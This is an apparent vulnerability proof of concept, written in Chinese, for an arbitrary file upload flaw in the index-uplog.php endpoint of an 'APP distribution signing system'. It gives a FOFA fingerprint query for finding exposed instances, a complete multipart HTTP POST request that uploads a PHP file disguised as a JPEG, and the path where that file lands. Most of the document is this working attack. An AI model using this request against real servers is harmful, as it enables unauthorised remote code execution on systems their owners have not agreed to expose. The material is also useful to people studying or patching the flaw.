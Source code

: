 ## APP分发签名系统index-uplog.php存在任意文件上传漏洞

## fofa

```
"statics/css/swiper.min.css" && "/user/messages/dialog"
```

## poc

```
POST /source/pack/upload/2upload/index-uplog.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 290
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfF7NbGp0PAFq8Mkd
Host: 127.0.0.1
Origin: http://127.0.0.1
Referer: http://127.0.0.1/source/pack/upload/2upload/index-uplog.php
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1

------WebKitFormBoundary03rNBzFMIytvpWhy
Content-Disposition: form-data; name="time"

1-2
------WebKitFormBoundary03rNBzFMIytvpWhy
Content-Disposition: form-data; name="app"; filename="1.php"
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundary03rNBzFMIytvpWhy--
```

文件路径

` /source/data/tmp/1-2.php`

![image-20240621195533293](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406211955382.png)

## 漏洞来源

- https://mp.weixin.qq.com/s/hCQnGoV4J-4-g_oEjmheGg
